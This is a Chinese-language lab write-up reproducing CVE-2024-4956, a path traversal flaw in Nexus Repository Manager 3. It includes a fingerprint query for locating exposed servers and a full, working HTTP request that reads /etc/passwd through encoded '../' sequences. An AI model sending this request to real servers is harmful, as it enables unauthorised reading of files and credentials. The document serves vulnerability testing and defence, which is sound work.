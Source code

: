 # Nexus Repository Manager 3 未授权目录穿越漏洞 CVE-2024-4956

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET 等软件源仓库。

其 3.68.0 及之前版本中，存在一处目录穿越漏洞。攻击者可以利用该漏洞读取服务器上任意文件。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/29416509323923-CVE-2024-4956-Nexus-Repository-3-Path-Traversal-2024-05-16

## 漏洞影响

```
Sonatype Nexus Repository 3 < 3.68.1
```

## 网络测绘

```
app="Nexus-Repository-Manager"
```

## 环境搭建

Vulhub 执行如下命令启动一个 Nexus Repository Manager version 3.68.0 版本服务器（内存>4G）：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8081`即可看到 Nexus 的默认页面。

![](images/Nexus%20Repository%20Manager%203%20未授权目录穿越漏洞%20CVE-2024-4956/image-20240527180238662.png)


## 漏洞复现

与 Orange Tsai 在[Blackhat US 2018](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)分享的 SpringMVC CVE-2018-1271 漏洞类似，Jetty 的`URIUtil.canonicalPath()`函数也将空字符串认为是一个合法目录，导致了该漏洞的产生：

![](images/Nexus%20Repository%20Manager%203%20未授权目录穿越漏洞%20CVE-2024-4956/image-20240527155411887.png)

发送如下请求来复现漏洞：

```
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: your-ip:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0

```

可见，`/etc/passwd`已被成功读取。

![](images/Nexus%20Repository%20Manager%203%20未授权目录穿越漏洞%20CVE-2024-4956/image-20240527180408453.png)

